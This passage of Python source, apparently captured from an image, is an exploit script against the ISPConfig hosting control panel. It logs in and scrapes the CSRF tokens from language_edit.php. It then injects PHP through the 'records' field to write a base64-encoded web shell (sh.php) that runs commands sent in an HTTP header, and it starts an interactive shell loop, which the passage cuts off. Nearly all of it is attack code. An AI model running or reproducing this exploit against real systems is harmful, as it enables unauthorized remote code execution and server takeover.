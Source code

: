 ```python
        'password': password,
        's_mod': 'login'
    }

    print(f"[+] Logging in with username '{username}' and password '{password}'")
    resp = session.post(login_url, data=data, verify=False)
    if 'Username or Password wrong' in resp.text:
        sys.exit("[-] Login failed!")
    print("[+] Login successful!")

def get_csrf_tokens(url, session, lang_file):
    print("[+] Fetching CSRF tokens...")
    target_url = f"{url}admin/language_edit.php"
    data = {
        'lang': 'en',
        'module': 'help',
        'lang_file': lang_file
    }
    resp = session.post(target_url, data=data, verify=False)

    csrf_id_match = re.search(r'_csrf_id" value="([^"]+)"', resp.text)
    csrf_key_match = re.search(r'_csrf_key" value="([^"]+)"', resp.text)

    if not csrf_id_match or not csrf_key_match:
        sys.exit("[-] CSRF tokens not found!")

    print(f"[+] CSRF ID: {csrf_id_match.group(1)}")
    print(f"[+] CSRF Key: {csrf_key_match.group(1)}")
    return csrf_id_match.group(1), csrf_key_match.group(1)

def inject_shell(url, session, lang_file, csrf_id, csrf_key):
    print("[+] Injecting shell payload...")

    payload = base64.b64encode(
        b"<?php print('____'); passthru(base64_decode($_SERVER['HTTP_C'])); print('____'); ?>"
    ).decode()

    injection = f"'];file_put_contents('sh.php',base64_decode('{payload}'));die;#"

    data = {
        'lang': 'en',
        'module': 'help',
        'lang_file': lang_file,
        '_csrf_id': csrf_id,
        '_csrf_key': csrf_key,
        'records[\\]': injection
    }

    resp = session.post(f"{url}admin/language_edit.php", data=data, verify=False)

    if resp.status_code == 200:
        print(f"[+] Shell written to: {url}admin/sh.php")
    else:
        print(f"[-] Failed to send payload, HTTP {resp.status_code}")

def launch_shell(url, session):
    print("[+] Launching shell...")
    shell_url = f"{url}admin/sh.php"

    while True:
        try:
            cmd = input("\nispconfig-shell# ")
            if cmd.strip().lower() == "exit":
```